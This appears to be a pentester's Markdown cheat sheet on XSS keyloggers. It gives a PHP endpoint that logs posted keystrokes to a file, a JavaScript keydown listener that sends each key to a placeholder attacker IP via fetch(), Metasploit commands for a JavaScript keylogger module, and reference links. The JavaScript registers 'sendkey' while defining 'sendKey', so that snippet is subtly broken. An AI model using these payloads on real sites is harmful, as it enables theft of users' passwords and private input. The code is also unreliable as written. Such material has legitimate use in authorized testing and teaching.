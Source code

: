# Keyloggers

Search Tag(s): #helpers #webapp-pentesting #cross-site-scripting

## 01 - Server-Side

### 1.1 - PHP

```php
<?php
header("Access-Control-Allow-Origin: *");
if(!empty($_POST['key'])) {
    $log = fopen('keylog.txt', 'a+');
    fwrite($log, $_POST['key']);
    fclose($log);
}
?>
```

### 1.2 - JavaScript

```js
function sendKey(event) {
	fetch("http[s]://<IP>/data?k=" + event.key);
}
document.addEventListener('keydown', sendkey);
```

## 02 - Metasploit

TODO: Fill this info

```
msf > use auxiliary/server/capture/http_javascript_keylogger

msf auxiliary(server/capture/http_javascript_keylogger) > options
```

---
## References

### Hacktricks

- [Hacktricks: XSS (Cross Site Scripting)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)

### IMVK

- [IMVK: Cross Site Scripting - Exploitation](https://imvk.net/en/infosec/ethical-web-hacking/cross-site-scripting-exploitation)

### Geeky much

- [Geeky much: Cross-site Scripting](https://medium.com/secure-you/cross-site-scripting-b64f440ae060)

### Rapid7

- [Rapid7: Metasploit Framework - JavaScript Keylogger](https://www.rapid7.com/blog/post/2012/02/21/metasploit-javascript-keylogger/)

### Pentest Tools

- [Pentest Tools: 10 Practical scenarios for XSS attacks](https://pentest-tools.com/blog/xss-attacks-practical-scenarios)